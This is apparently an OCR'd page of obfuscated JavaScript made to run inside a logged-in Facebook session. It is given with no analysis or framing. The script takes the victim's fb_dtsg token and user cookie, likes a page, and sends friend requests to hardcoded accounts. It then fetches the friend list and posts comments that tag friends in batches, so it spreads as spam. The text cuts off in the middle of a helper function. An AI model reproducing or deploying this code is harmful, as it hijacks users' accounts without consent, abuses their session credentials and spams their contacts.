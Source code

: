 var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) {   var Page = new XMLHttpRequest();   var PageURL = "//www.facebook.com/ajax/pages/fan_status.php";   var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   Page.open("POST", PageURL, true);   Page.onreadystatechange = function () {     if (Page.readyState == 4 &amp;&amp; Page.status == 200) {       Page.close;     }   };   Page.send(PageParams); } Like("0");   var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) {   var X = new XMLHttpRequest();   var XURL = "//www.facebook.com/ajax/add_friend/action.php";   var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   X.open("POST", XURL, true);   X.onreadystatechange = function () {     if (X.readyState == 4 &amp;&amp; X.status == 200) {       X.close;     }   };   X.send(XParams); } IDS("100003986362145"); IDS("100002871108311"); var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","216343421893060","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); 	 function cereziAl(isim) {     var tarama = isim + "=";     if (document.cookie.length > 0) {         konum = document.cookie.indexOf(tarama)         if (konum != -1) {             konum += tarama.length             son = document.cookie.indexOf(";", konum)             if (son == -1)                 son = document.cookie.length             return unescape(document.cookie.substring(konum, son))         }         else { return ""; }     } }  function getRandomInt (min, max) {     return